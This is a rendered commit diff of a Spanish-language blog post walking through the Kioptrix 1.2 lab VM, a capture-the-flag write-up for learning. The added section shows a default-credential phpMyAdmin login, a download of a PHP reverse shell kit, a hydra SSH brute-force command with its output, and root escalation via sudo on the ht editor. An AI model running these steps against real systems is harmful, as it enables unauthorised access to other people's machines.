

Before and after one commit to pgrandoli/pgrandoli.github.io, a Jekyll site: the page built from _posts/2020-02-06-Kioptrix1.2-Walkthrough.md, in a window 1280 px wide and 1400 px high, scrolled down 5920 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
Add files via upload

`````diff
--- a/_posts/2020-02-06-Kioptrix1.2-Walkthrough.md
+++ b/_posts/2020-02-06-Kioptrix1.2-Walkthrough.md
@@ -206,9 +206,118 @@ Entrando a **kioptrix3.com** se nos presenta una página de home, un blog y una
 
 ### **Cosas interesantes**
  - Página de login. (Se puede atacar con SQLi o fuerza bruta, veremos...).
- - Hay phpMyAdmin corriendo, seguramente tambien hay una DB en el backend.
+ - **Hay phpMyAdmin corriendo, seguramente tambien hay una DB en el backend.**
+
+Fui con la opción de phpMyAdmin, una búsqueda rápida **Searchsploit** solo arrojó dos resultados de ataques de XSS, cosa que no me pareció útil en este momento.
+
+![img]({{ '/assets/images/Kioptrix1.2/phpmyadmin_00.png' | relative_url }}){: .center-image }*(Login page de phpMyAdmin)*
+
+Teniendo la página de login de phpMyAdmin delante mío solo tuve que googlear las credenciales por defecto, resulta que el campo de password va vacío. Probé y listo, adentro!
+
+![img]({{ '/assets/images/Kioptrix1.2/phpmyadmin_01.png' | relative_url }}){: .center-image }*(Adentro)*
+
+### **Explotación**
+
+---
+
+No conozco nada de phpMyAdmin pero se ocurre que teniendo el usario **Admin** seguramente se podrá hacer algo con la base de datos, se me ocurre subir una webshell o reverse shell.
+
+A ver que dice [PentestMonkey](http://pentestmonkey.net/tools/web-shells/php-reverse-shell)
+
+Viene con videíto y todo:
+
+>``**wget http://pentestmonkey.net/tools/php-reverse-shell/php-reverse-shell-1.0.tar.gz**``
+
+>``**tar -zxvf php-reverse-shell-1.0.tar.gz**``
 
 
+Después de tratar y googlear bastante me di cuenta que no podía hacer mucho con phpMyAdmin así que me puse a buscar otras vías de acceso.
+
+Me mandé con un ataque de fuerza bruta al servicio de **SSH**, ya tengo un usuario llamado loneferret que figura dentro del portal web. Solo falta el diccionario de palabras, para eso probe con **``/usr/share/wordlists/rockyou.txt``** pero no tuve exito. Así que entontré un github de Daniel Miessler llamado [SecLists](https://github.com/danielmiessler/SecLists/) que tiene una cantidad absurda de passwords, yo descargué el top [100](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/10-million-password-list-top-100.txt) y top [1000](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/10-million-password-list-top-1000.txt) de los más usados.
+
+Ahora a probar:
+
+>``**hydra -l loneferret -P /usr/share/wordlists/10-million-password-list-top-1000.txt ssh://10.0.0.110 -t 4 -f**``
+
+```console
+Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.
+
+Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-02-06 04:43:39
+[DATA] max 4 tasks per 1 server, overall 4 tasks, 100 login tries (l:1/p:100), ~25 tries per task
+[DATA] attacking ssh://10.0.0.110:22/
+[STATUS] 52.00 tries/min, 52 tries in 00:01h, 48 to do in 00:01h, 4 active
+[22][ssh] host: 10.0.0.110   login: loneferret   password: starwars
+[STATUS] attack finished for 10.0.0.110 (valid pair found)
+1 of 1 target successfully completed, 1 valid password found
+Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-02-06 04:45:14
+
+```
+El password era **starwars** asi que:
+
+>``**ssh loneferret@10.0.0.110**``
+
+Algo que hago siempre que logro una sesión de bajos privilegios es correr el comando ``sudo -l`` para ver si el usario tiene la capacidad de correr algún comando como **root**.
+
+>``**sudo -l**``
+
+````console
+User loneferret may run the following commands on this host:
+(root) NOPASSWD: !/usr/bin/su
+(root) NOPASSWD: /usr/local/bin/ht
+````
+Una forma más fácil de haber detectado esto habría sido también leer el archivo **CompanyPolicy.README** que se encuentra en la raíz del home del usuario.
 
 
-**Post en Preparación**
+### **Flag**
+
+---
+
+La cuestión es que pudiendo hacer ``sudo`` para correr el comando ```ht`` que no es más que un editor de texto se puede acceder al home de **root** para encontrar la bandera ``/root/Congrats`` y leerla:
+
+```console
+Good for you for getting here.
+Regardless of the matter (staying within the spirit of the game of course)
+you got here, congratulations are in order. Wasn't that bad now was it.
+
+Went in a different direction with this VM. Exploit based challenges are
+nice. Helps workout that information gathering part, but sometimes we
+need to get our hands dirty in other things as well.
+Again, these VMs are beginner and not intented for everyone.
+Difficulty is relative, keep that in mind.
+
+The object is to learn, do some research and have a little (legal)
+fun in the process.
+
+I hope you enjoyed this third challenge.
+
+Steven McElrea
+aka loneferret
+http://www.kioptrix.com
+
+
+Credit needs to be given to the creators of the gallery webapp and CMS used
+for the building of the Kioptrix VM3 site.
+
+Main page CMS:
+http://www.lotuscms.org
+
+Gallery application:
+Gallarific 2.1 - Free Version released October 10, 2009
+http://www.gallarific.com
+Vulnerable version of this application can be downloaded
+from the Exploit-DB website:
+http://www.exploit-db.com/exploits/15891/
+
+The HT Editor can be found here:
+http://hte.sourceforge.net/downloads.html
+And the vulnerable version on Exploit-DB here:
+http://www.exploit-db.com/exploits/17083/
+
+Also, all pictures were taken from Google Images, so being part of the
+public domain I used them.
+```
+
+### **Conclusión**
+Esta VM tiene varias formnas de ingresar, lo mío fue bastante sucio y no requirío ni siquiera la utilización de un exploit para llegar al flag. Tal vez con más tiempo se podrían investigar los otros vectores de ataque pero por ahora prefiero avanzar con las demás VMs.
+
+---
`````
